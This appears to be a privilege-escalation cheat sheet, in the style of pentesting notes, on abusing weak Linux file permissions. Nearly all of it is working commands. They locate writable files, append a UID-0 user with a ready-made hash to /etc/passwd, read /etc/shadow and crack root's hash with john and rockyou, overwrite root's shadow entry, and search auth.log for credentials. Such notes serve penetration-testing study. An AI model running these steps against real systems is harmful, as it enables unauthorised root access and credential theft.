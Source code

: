 ```yaml
---
title: Weak File Permission
parent: Method
layout: default
nav_order: 1
---
```


Useful command (writable file, readable file, writable folder):\
`find /etc -maxdepth 1 -writable -type f`\
`find /etc -maxdepth 1 -readable -type f`\
`find / -executable -writable -type d 2> /dev/null`

## /etc/passwd
1. Verify the permission:\
   `ls -l /etc/passwd`
2. Generate a password hash:\
   `openssl passwd "password"`
3. Edit the file and change the root's second field(x) to the hash. Alternatively create a new user by appending a new row:\
   `echo "newroot:L9yLGxncbOROc:0:0:root:/root:/bin/bash" >> /etc/passwd`
4. Use `su` and type in the password

## /etc/shadow
**If world readable:**
1. Check permission using\
   `ls -l /etc/shadow`
2. Get the password for root:\
   `head -n 1 /etc/shadow`
3. Save the hash to a file:\
   `echo '$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVl aXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0' > hash.txt`
4. Crack using john:\
   `john --format=sha512crypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`
5. Use `su` and type in the password cracked.

**If world writable:**
1. Check permission using\
   `ls -l /etc/shadow`
2. Copy etc/shadow as a backup:\
   `cp /etc/shadow /tmp/shadow`
3. Generate a new sha512 hash:\
   `mkpasswd -m sha-512 newpassword`
4. Edit /etc/shadow for root and replace our hash generated.
5. Use `su` and type in the password cracked.

## /var/log/auth.log
1. Check permission:\
   `ls -la /var/log/auth.log`
2. If allowed to read,\
   `cat /var/log/auth.log`\
   Might contain login credentials.